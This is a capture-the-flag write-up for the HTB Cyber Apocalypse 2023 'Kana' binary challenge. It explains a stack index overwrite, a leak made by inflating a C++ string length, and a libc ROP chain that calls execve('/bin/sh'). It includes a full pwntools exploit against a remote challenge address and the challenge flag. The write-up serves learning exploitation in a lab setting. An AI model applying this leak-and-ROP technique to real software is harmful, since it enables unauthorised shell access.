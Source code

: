# Kana - HTB Cyber Apocalypse 2023

## Description
To facilitate communication between certain civilizations, a converter was developed. But can this converter be trusted to keep their messages secure?

## Solution
There is a weird buffer overflow/OOB write inside of the function which prints the banner and takes our input:

```C
  memset(&local_78,0,0x30);
  while( true ) {
    read(0,(void *)((long)&local_78 + (long)local_1c),1);
    if (*(char *)((long)&local_78 + (long)local_1c) == '\n') break;
    local_1c = local_1c + 1;
  }
  *(undefined *)((long)&local_78 + (long)local_1c) = 0;
  atoi((char *)&local_78);
  return;
```

This just reads until it hits a newline. However local_1c is on the stack after our input. If we try to overflow with A's no segmentation fault will happen.

This is because we set our indexing to where we should write, to something lower than what was there before. Therefore the rest of our input is read into our actual buffer.

An example of triggering the buffer overflow can be seen here:
```py
from pwn import *


io = process("./kana")
padding = b'A'*92 + b'\x5d\x00\x00\x00' + b'A'*0x100

io.send(padding)

io.interactive()
```

Since our last index in our buffer is 0x5d, we overwrite the index with this number, which causes us to be able to overflow further. However just overflowing isn't enough as the binary has PIE:

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Because of this we need to figure out a way to leak. Probably abusing the indexing mechanism to write to something further down the stack than the return pointer of the function.

It took a while to figure out what to overwrite. But I then realized that all strings given to C++'s `cin` function are stored with the length on top of it. We can see then if we create a new kana and call it `CCCCC` for example:

![cpp_strings](./cpp_strings.png)

We can easily test this theory by setting the value to something high. Like 0x80:

![bigger_len](./bigger_len.png)

This makes it a primary target, as we can just overwrite the size of the string to be something way bigger, which then results in the program printing out a bunch of pointers on the stack when printing our kana.

After some calculation I found that we need to set our indexer to 0xc7, since our the length of our kana starts at 0xc8. We can then overwrite this to be 0xf0 and receive a leak.

Once the leak is received, this just becomes normal ROP inside of libc.


Exploit:
```py
from pwn import *

io = remote("46.101.80.159",31595)


io.recvuntil(b'>>')
io.sendline(b'4')
io.recvuntil(b'>>')
io.sendline(b'CCCCCCCCCCCC')
io.recvuntil(b'>>')
#Overwrite the kana length to be 0xf0 instead
io.sendline(b'A'*92+b'\xc7'+p8(0xf0))

#Receive leak
io.recvuntil(b' : ')
libc_leak = u64(io.recvline()[0x78:0x80])
libc_base = libc_leak - 0x29d90
print(f"LIBC LEAK: {libc_base:#x}")

#Calc gadgets
poprdi = p64(libc_base+0x000000000002a3e5)
poprsi = p64(libc_base+0x000000000002be51)
poprdx = p64(libc_base+0x000000000011f497)
poprax = p64(libc_base+0x0000000000045eb0)
binsh = p64(libc_base+0x001d8698)
syscall = p64(libc_base+0x0000000000091396)


#Pop shell
io.recvuntil(b'>>')
padding = b'A'*92+b'\x5d\x00\x00\x00'+b'B'*23

payload = [
    padding,
    poprdi,
    binsh,
    poprsi,
    p64(0),
    poprdx,
    p64(0),
    p64(0xdeadbeef),
    poprax,
    p64(59),
    syscall
]
payload = b''.join(payload)
io.sendline(payload)



io.interactive()
```

## Flag
`HTB{7e6bcd08450c69d3e9e8f225aaf7f90d}`
